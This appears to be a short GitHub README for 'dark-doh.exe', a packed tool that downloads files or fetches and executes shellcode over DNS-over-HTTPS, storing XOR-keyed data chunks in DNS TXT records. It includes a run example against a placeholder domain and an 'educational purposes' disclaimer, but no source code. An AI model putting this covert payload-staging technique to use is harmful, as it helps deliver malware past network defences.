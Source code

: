 dark-doh.exe public version

Purpose: Download files via DoH, or download and execute a shellcode

- Run example: dark-doh.exe file1 download google yourdomain.com

- The supporting python script added.

No src for a moment, maybe will be added later. Packed by UPX.

!!! Disclaimer !!!
- The authors do not have any responsibility and/or liability for how you will use the dark-doh.exe!
- Everything that anyone can find in this repository is only for educational and research purposes, and the authors have no responsibility for how you will use the data found.


Changelog:
- dark-doh-v1.0rc-public.exe release:
  - data download
  - Google as DoH provider
  - data chunks and XOR-key (4 bytes) are stored in the TXT record
  - data chunks are stored in the alphanumeric format
